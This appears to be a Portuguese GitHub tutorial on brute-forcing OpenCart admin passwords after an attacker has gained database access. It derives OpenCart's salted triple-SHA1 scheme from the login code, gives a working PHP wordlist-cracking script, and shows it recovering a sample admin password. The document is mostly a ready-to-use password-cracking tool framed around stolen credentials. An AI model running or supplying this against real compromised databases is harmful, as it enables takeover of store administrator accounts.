 # BRUTE FORCE OPENCART PASSWORDS TUTORIAL
Nesse pequeno tutorial eu explico como realizar ataques de força bruta em senhas opencart


## CENÁRIO:
- VOCÊ CONSEGUIU ACESSO AO BANCO DE DADOS OPENCART.
- VOCÊ CONSULTA A SENHA E O SALT DA SENHA NA TABELA DO ADMIN.

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEMA:
Você não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa HASH com força bruta comum usando criptografia SHA1.

```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "SENHA: ".$string;}else{}
}
?>
```


O problema é que `$password` (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um programa de força bruta baseada nesse tipo de criptografia nunca iria gerar uma HASH igual a senha criptografada do admin que você quer "desvendar".

## SOLUÇÃO:

SE OLHARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

ENCONTRAMOS O SEGUINTE CÓDIGO:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTANDO O CÓDIGO TEMOS:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

obs: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar a strings da nossa wordlist para comparar com a Hash do Admin

Um script simples em php para testar força bruta em senhas OpenCart ficaria assim:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "SENHA: ".$string;}else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
SENHA: 12345
```

###### _NEED ME? [pablov3rlly gmail com]_
